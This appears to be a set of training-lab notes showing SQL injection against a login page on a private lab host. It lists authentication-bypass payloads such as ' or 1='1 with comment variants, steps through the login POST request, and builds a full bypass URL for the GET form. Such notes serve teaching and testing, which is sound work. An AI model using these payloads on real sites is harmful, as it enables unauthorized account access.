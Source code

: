 ```
1=1 True 
```

# Actual Demo
- ip: 10.50.21.144


### SQL Injection - Login - Credentials

#### STEPS: 
- on 10.50.21.144, view page source and examine index.html
- after entering any username and password, open console using f12 and open network tab; note the POST in the console for login.php
- Attempt to use one of the generic truth statements (see below) in the password field with any username: should be successful

##### 1. Determine if the login page (POST method) is vulnerable to SQL injection via Truth statment
- generic truth statements: 
- `<value>' or 1='1`
- `<value>' or 1='1;
- `<value>' or 1='1; #`
- `<value>' or 1='1; --`

if the website returns some wacky output, it is vulnerable to SQL injection.

	What did we determine?
	1. The 10.50.21.144 is vulnerable to SQL injection
	2. admin is a user

## 2. Exploit vulnerable login page (GET Method) w/ truth statement

http://10.50.21.144/login.php

What are the query string parameters?
- username
- password

building the query string from searchbar (step by step)

- http://10.50.21.144/login.php
- http://10.50.21.144/login.php?
- http://10.50.21.144/login.php?username
- http://10.50.21.144/login.php?username=
- http://10.50.21.144/login.php?username=dan'
- http://10.50.21.144/login.php?username=dan' or 1='1
- http://10.50.21.144/login.php?username=dan' or 1='1&
- http://10.50.21.144/login.php?username=dan' or 1='1&passwd
- http://10.50.21.144/login.php?username=dan' or 1='1&passwd=

- **http://10.50.21.144/login.php?username=dan' or 1='1&passwd=dan' or 1='1**
